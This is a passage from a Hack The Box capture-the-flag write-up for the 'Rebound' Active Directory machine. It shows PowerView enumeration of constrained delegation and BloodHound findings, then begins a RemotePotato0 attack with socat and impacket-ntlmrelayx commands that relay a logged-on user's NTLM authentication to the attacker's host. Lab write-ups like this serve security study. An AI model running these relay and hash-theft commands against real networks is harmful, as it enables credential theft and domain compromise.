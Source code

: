 Fortunately, no defences were present on the box and I could download `PowerView.ps1` to enumerate stuff. When enumerating Kerberos, I found that the `delegator$` computer user had some delegation rights for the DC:

```
*Evil-WinRM* PS C:\Users\winrm_Svc\documents> Get-DomainComputer -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto

userprincipalname name      msds-allowedtodelegateto
----------------- ----      ------------------------
                  delegator http/dc01.rebound.htb
```

This is probably the last step to `root`, so we'll keep this in mind. I also ran a `SharpHound.exe` on the machine itself and updated my Bloodhound database. When taking a look at all the parts of `tbrady` noticed this:

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

The user has a session on the DC, and this might be exploitable as we could potentially steal credentials. There weren't any other leads I found, so I went along with this.&#x20;

### Remote Potato --> Tbrady Hash --> ReadGMSAPassword

I got some help from another HTB member, who told me that I should look towards thinking about how logged on users can be exploited, and I googled around to find this repo:

{% embed url="https://github.com/antonioCoco/RemotePotato0" %}

The above tool would potentially allow us to steal the NTLM hash of the `tbrady` user. To set it up, first we have to create a `socat` listener and `impacket-ntlmrelayx` listener based on the instructions from the repo:

```bash
sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:10.129.68.227:9999 &
sudo impacket-ntlmrelayx -t ldap://10.10.14.41 --no-wcf-server --escalate-user winrm_svc
```
